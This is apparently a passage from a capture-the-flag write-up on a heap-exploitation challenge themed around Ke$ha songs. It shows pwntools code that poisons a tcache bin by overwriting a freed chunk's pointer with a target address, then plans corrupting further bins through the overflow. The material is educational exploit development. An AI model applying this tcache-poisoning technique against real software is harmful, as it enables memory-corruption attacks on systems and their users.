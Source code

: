 ### Back to the exploit 

Here's our code so far:


```python

# tcache bin 0x20 -> chunk A -> chunk B 

play_song("44") # Reads from STDIN

# malloc(0), which pops chunk A from tcache
p.sendline("-1") # Size of "lyrics"

# Fills chunk A nullbytes
chunkA = p64(0x00) * 2 
# Overwrites chunk B tcache ptr w/ addr of song[0].fd
chunkB = p64(0x00) + p64(0x21) + p64(0x404078) 
p.send(chunkA + chunkB) 

# tcache bin 0x20 -> chunk B -> 0x404078

play_song("17") # Pops chunk B from tcache bin 0x20

# tcache bin 0x20 -> 0x404078

play_song("18") # Pops 0x404078 from tcache 
                # and memsets songs[0].fd to 0 

```
In this code we:
1. Play song #44 and overwrite `chunk B`
2. Play a song of size 0x20 to pop chunk B from the tcache, setting the head of the 0x20 tcache bin to `0x404078`.
3. Play another song of size 0x20, which pops `0x404078` off the cache and `memsets` the file descriptor field of the first song struct, `songs[0].fd`, to 0. 

__We can now send data through STDIN one more time, but we can't write the data anywhere besides a new chunk on the heap.__ 

This isn't too helpful unless we can control where that heap chunk is. In order to do that we need to amend our strategy:  __we should have corrupted more tcache bins with our overflow so we could use them with this new read from STDIN.__

This can be easily done because our overflow was of an arbitrarily long number of bytes.
Let's go back to the beginning of our exploit and __this time when we overflow let's overwrite more than one chunk.__

We're already corrupting the tcache bin for 0x20 so we won't be able to exploit it again until we free and overwrite more chunks (which would require us overflowing a second time, which we can't do without using up our new STDIN fd). Thankfully, 0x20 isn't the only tcache bin we can exploit. **A few of Ke$ha's songs are within tcache range, including "Godzilla" from the album Rainbow and the titular song from the album Animal.** 
